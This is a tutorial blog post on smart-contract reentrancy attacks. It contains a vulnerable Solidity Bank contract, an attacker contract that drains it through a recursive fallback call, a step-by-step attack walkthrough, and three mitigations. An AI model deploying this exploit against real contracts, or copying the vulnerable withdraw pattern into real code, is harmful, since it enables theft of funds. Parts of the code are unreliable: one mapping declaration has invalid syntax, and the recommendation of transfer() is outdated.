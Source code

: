 ```yaml
---
layout: post
title:  "Understanding Reentrancy Attacks in Smart Contracts" 
description: A reentrancy attack occurs when an external malicious contract repeatedly calls a vulnerable contract’s function before the previous execution is completed.
# date:   2022-10-26 15:00:00 +0900
categories: dev
# tags: [ethereum, solidity, smartcontract]
keywords: blockchain, ethereum, smartcontract, solidity
comments: true
---
```


## Table of Contents

- [Reentrancy Attack](#reentrancy-attack)
- [Example: Reentrancy Attack on a Bank Contract](#example-reentrancy-attack-on-a-bank-contract)
- [How to Prevent Reentrancy Attacks](#how-to-prevent-reentrancy-attacks)
- [Summary: How to Defend Against Reentrancy Attacks](#summary-how-to-defend-against-reentrancy-attacks)
- [Conclusion](#conclusion)

## Reentrancy Attack

A reentrancy attack occurs when a malicious external contract calls a vulnerable contract’s function recursively before the previous execution is completed.

To understand this attack in the context of Ethereum and smart contracts, let’s go through some key properties:

- Ethereum allows transferring Ether between user addresses.
- Smart contracts in Ethereum can call external contracts and interact with their functions.
- If a contract sends Ether to an unknown address or calls a nonexistent function in another contract, a `fallback` function can execute alternative code.

A reentrancy attack happens when a contract sends Ether to an external malicious contract with a malicious `fallback` function that recursively calls the vulnerable contract before it updates its state.

A `fallback` function is a function without a name in Solidity. It gets triggered when a contract receives Ether or when a nonexistent function is called.

One of the most famous reentrancy attacks was "The DAO Hack". In this attack, the attacker exploited a vulnerable contract holding over $150 million in Ether. This attack led to the Ethereum hard fork, splitting the network into Ethereum (ETH) and Ethereum Classic (ETC).

## Example: Reentrancy Attack on a Bank Contract

### Smart Contracts Setup

We have two contracts:

- Bank Contract: Holds and allows withdrawals of Ether.
- Attack Contract: Exploits the Bank contract’s vulnerability.

```solidity
// Vulnerable Bank Contract
contract Bank {
    mapping(address -> uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 _amount) public {
        require(balances[msg.sender] >= _amount);

        require(msg.sender.call.value(_amount)());
        balances[msg.sender] -= _amount;
    }
}
```

```solidity
// Malicious Attack Contract
contract Attack {
    Bank public bank;

    constructor(address _bankAddress) {
        bank = Bank(_bankAddress);
    }

    function attackBank() public payable {
        bank.deposit.value(1 ether)();
        bank.withdraw(1 ether);
    }

    function () payable {
        if (bank.balance > 1 ether) {
            bank.withdraw(1 ether);
        }
    }
}
```

### Attack Scenario: How the Exploit Works

The attacker withdraws almost all Ether from the Bank contract in a single transaction. Assume the Bank contract already has sufficient Ether.

![attach scenario](https://velog.velcdn.com/images/wnjoon/post/6502c25e-0cd0-4d45-89f8-a8e6cbfce390/image.PNG)

Step-by-Step Attack Process:

1. The attacker calls `attackBank()` from the Attack contract.
2. `attackBank()` deposits 1 Ether into the Bank contract.
3. `attackBank()` then calls `withdraw(1 ether)`, triggering the Bank contract’s withdrawal function.
4. The Bank contract sends 1 Ether to the Attack contract.
5. The Attack contract’s fallback function gets triggered before the Bank contract updates the balance.
6. The fallback function recursively calls `withdraw(1 ether)` before the previous call completes.
7. This loop continues until only 1 Ether remains in the Bank contract.

## How to Prevent Reentrancy Attacks?

There are three main strategies to mitigate reentrancy attacks.

### 1. Use transfer() Instead of call.value()

- Solidity’s `transfer()` function only allows 2300 gas for external calls.
- This prevents the `fallback` function from making further reentrant calls.

```solidity
msg.sender.transfer(_amount); // Safer alternative
```

### 2. Follow the Checks-Effects-Interactions Pattern

The [Checks-Effects-Interactions pattern](https://docs.soliditylang.org/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) ensures state variables are updated before making external calls.

#### Vulnerable Code

```solidity
function withdraw(uint256 _amount) public {
    require(balances[msg.sender] >= _amount);

    require(msg.sender.call.value(_amount)()); // External call before updating state
    balances[msg.sender] -= _amount;
}
```

#### Fixed Code

```solidity
function withdraw(uint256 _amount) public {
    require(balances[msg.sender] >= _amount);

    balances[msg.sender] -= _amount;  // Update state first
    msg.sender.transfer(_amount);  // External call after state update
}
```

### 3. Use a Mutex (Reentrancy Lock)

A mutex (boolean flag) prevents reentrant calls by locking the function until execution is complete.

#### Improved Bank Contract with Reentrancy Protection

```solidity
// Secure Bank Contract
contract Bank {
    bool mutex = false; // Mutex variable to prevent reentrancy
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 _amount) public {
        require(!mutex);  // Ensure no reentrancy
        require(balances[msg.sender] >= _amount);

        balances[msg.sender] -= _amount;
        mutex = true;  // Lock the contract

        msg.sender.transfer(_amount);

        mutex = false;  // Unlock after transfer
    }
}
```

## Summary: How to Defend Against Reentrancy Attacks

| Method | Description | Effectiveness |
| --- | --- | --- |
| Use transfer() instead of call.value() | Limits gas usage for external calls, preventing reentrancy | Highly effective |
| Checks-Effects-Interactions pattern | Updates state variables before external calls to prevent recursion | Strong protection |
| Mutex (Reentrancy Lock) | Uses a flag to prevent multiple executions | Effective but requires careful implementation |

## Conclusion

- Reentrancy attacks exploit the ability of external contracts to reenter a function before state updates occur.
- The DAO hack was a real-world example, causing Ethereum’s first hard fork.
- Three main defense strategies:
- Use `transfer()` instead of `call.value()` to limit gas usage.
- Apply the Checks-Effects-Interactions pattern to update state before making external calls.
- Implement mutex (reentrancy locks) to prevent multiple function executions.
